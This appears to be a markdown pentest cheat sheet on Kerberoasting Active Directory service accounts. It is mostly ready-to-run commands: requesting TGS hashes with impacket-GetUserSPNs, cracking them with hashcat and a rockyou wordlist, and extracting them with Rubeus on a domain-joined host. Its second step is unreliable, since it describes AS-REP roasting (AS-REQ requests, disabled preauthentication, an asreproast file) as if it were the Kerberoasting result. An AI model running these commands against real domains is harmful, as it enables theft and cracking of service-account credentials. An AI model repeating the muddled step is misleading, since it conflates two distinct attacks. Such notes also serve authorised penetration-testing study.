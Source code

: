 # Kerberoasting
This attack targets [Service Principal Names (SPN)](https://docs.microsoft.com/en-us/windows/win32/ad/service-principal-names) accounts. SPNs are unique identifiers that Kerberos uses to map a service instance to a service account in whose context the service is running. Domain accounts are often used to run services to overcome the network authentication limitations of built-in accounts such as `NT AUTHORITY\LOCAL SERVICE`.
## **Perform Kerberoasting on Kali:**

1. **Command Syntax**: Use the following command to request the **TGS** (Ticket Granting Server) and capture the TGS-REP hash:
    
```bash
impacket-GetUserSPNs -request -dc-ip <DomainController_IP>  -outputfile <output_file> <Domain/User>
```
- **-request** to obtain the TGS
Example:
``` shell
sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.50 corp.com/ahmed
```
HashShape
```
$krb5tgs$23$*iis_service$CORP.COM$corp.com/iis_service*$9b161bcb9f98f19b.......a85ee4
```

2. **Result**: This command will send AS-REQ requests to the domain controller and retrieve the AS-REP hashes (if preauthentication is disabled for the user accounts). The hashes are saved in [[Hashcat]] format in the output file (`hashes.asreproast`).
``` shell
hashcat --help | grep -i "Kerberos"
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

### **Perform Kerberoasting on Windows (joined domain):**
By using use [Rubeus]([https://github.com/GhostPack/Rubeus](https://github.com/MGamalCYSEC/Active-Directory-Enumeration-and-Attacks/tree/main/Tools/GhostPack-Compiled%20Binaries)) 

``` powershell
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```
#### On BloodHound we notice it as:

![image](https://github.com/user-attachments/assets/1d4eab33-897d-44a5-b4d3-68aee8275292)
